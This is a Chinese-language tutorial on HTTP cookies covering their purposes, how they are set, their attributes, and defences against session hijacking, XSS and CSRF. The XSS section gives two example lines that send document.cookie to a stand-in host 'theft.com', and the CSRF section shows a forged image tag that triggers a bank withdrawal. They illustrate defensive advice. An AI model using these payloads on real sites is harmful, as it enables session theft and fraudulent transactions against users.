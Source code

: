 ## Cookie用途

**记录会话**

  我们都知道http为无状态协议，即使客户端C上一次请求A告诉服务端S他是谁，下一次请求B到服务端S时，服务端S依然不知道是谁在访问，所以需要一个记录来跟踪用户登录状态，最常用的就是Cookie了，现在也有很多不传送cookie，走http headers进行认证，这样的话可以减少传送一些客户端才需要使用的cookie，节省带宽，而且更安全

**行为分析**

  通过cookie去跟踪用户的轨迹和使用情况，分析这些这些数据，（用户浏览了什么页面和内容/什么时候访问的/在当前页面停留多久/浏览最多的页面/查询最多的关键词等），从而可以定向精准的投放广告服务或者个性化服务，例如谷歌搜索，会记录你每次的搜索关键词，向你推荐相关关键词，了解你的兴趣爱好

## Cookie设置
cookie的设置方式又2种，第一种是由服务端的响应头中添加Set-Cookie，该响应头可以有多个同时存在，如
```js   
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: theme=light
Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2021 10:18:14 GMT; httponly
```
第二种在客户端通过js进行设置，如
```js
document.cookie='cookieName=cookieValue; expires=Tue, 06 Apr 2021 11:46:35 GMT; path=/; domain=xxx.com; secure;samesite=strict'
```
#### 属性说明

- **expires** => 值为GMT时间字符表示过期的日期点，可以设置该值为过去日期来删除该cookie<br>

- **maxage** => 表示过期的时间长度，单位为S<br>

- **path** => 限制cookie在该路径下，只能在该路径下才能发送<br>

- **domain** => 限制cookie在该域下，可以在该域和子域下发送，如果没有设置则只在该域下发送<br>

- **secure** => 限制只能在https下加密传输<br>

- **samesite** => 控制跨域下请求是否发送cookie,有三个值，分别为none(可以),strict（只在同域下发送站点）,lax（和strict差不多，不过只能通过link这种外部导航方式进入才会发送），默认为lax<br>

- **httponly** => 只通过http暴露cookie,这就表示不能通过js脚本document.cookie设置和访问<br>

#### 注意事项
`1. 没有设置expires或者maxage则默认为会话cookie，浏览器关闭之后则消失，反之为持久cookie`<br>

`2. 没有设置domain或者path则默认只能在当前域或路径下传送cookie`<br>

`3. 删除时，domain和path需要该cookie一致`<br>

`4. httponly只能通过服务端Set-Cookie设置`<br>

`5. 同源策略-不能设置和获取其他域的cookie`<br>
## Cookie安全
### SessionHijacking（会话劫持）
在客户端和服务端之间进行cookie的传输时，网络上的流量可以被发送方以外的网络上的计算机拦截和读取，特别是在未加密开放式的wifi上，通过拦截到的cookie来冒充用户发起恶意行为<br>

- 可以使用https加密传输，同时设置secure只能通过https进行传输<br>
- 随机方式生成会话，或者基于用户信息+时间+ip地址生成会话
### XSS（跨站脚本攻击）
在客户端执行了没有经过过滤的恶意代码将cookie发送到第三方服务器上，即使cookie添加了secure，如果第三方服务器启用了https，一样会被发送,如下代码
```js
 (new image()).src='https://theft.com/transparent.jpg?cookie='+document.cookie;
```
```html
<a href="#" onclick="window.location = 'http://theft.com/stole?cookie=' + encodeURIComponent(document.cookie); return false;">点击</a>
```
**1.杜绝源头**

- 存储时进行转义
- 不要引用来自不受信任域的js文件

**2.执行控制**

- 在输出时先对内容（来自url参数或者ajax）进行转义如（ & < > " ' / javascript:）
- 注意使用eval()、setTimeout()、setInterval()、innerHTML、document.write()等可以执行字符串的代码
- 由服务端通过Set-Cookie设置httponly，使document.cookie无法获取
### CSRF（跨站请求伪造）
代表用户在其他地方发起一个伪造的请求，假如在一个没有做输入过滤的论坛上接收到一个消息，该消息为如下代码
```html
<img src="http://bank.com/withdraw?account=you&amount=1000000&for=attacker">
```
如果此时你正好登录了bank.com且cookie有效，那该条消息会携带cookie向银行服务器发送一个转账的请求，银行通过cookie发现有效，则会执行转账操作

- 尽量减少敏感cookie失效时间
- 设置SameSite为lax同源策略，跨域时cookie不会被发送
- 敏感请求应该提供再次确认，如收到该请求后告知前端需要滑块验证或者输入用户信息，通过后回传才能继续执行
- 通过请求头origin或者referrer验证请求来源，且改用post方式（虽然请求头可以伪造，但是可以抵挡部分虚假和get请求）
- 不通过cookie进行认证，可添加一个自定义请求头进行认证，其值为动态生成的随机字符串
- 输入和输出过滤
- 在请求中添加cookie对应的token，对比请求中的token和cookie是否一致（cookie同源策略-伪造者不能设置和获取其他域的cookie到token中）
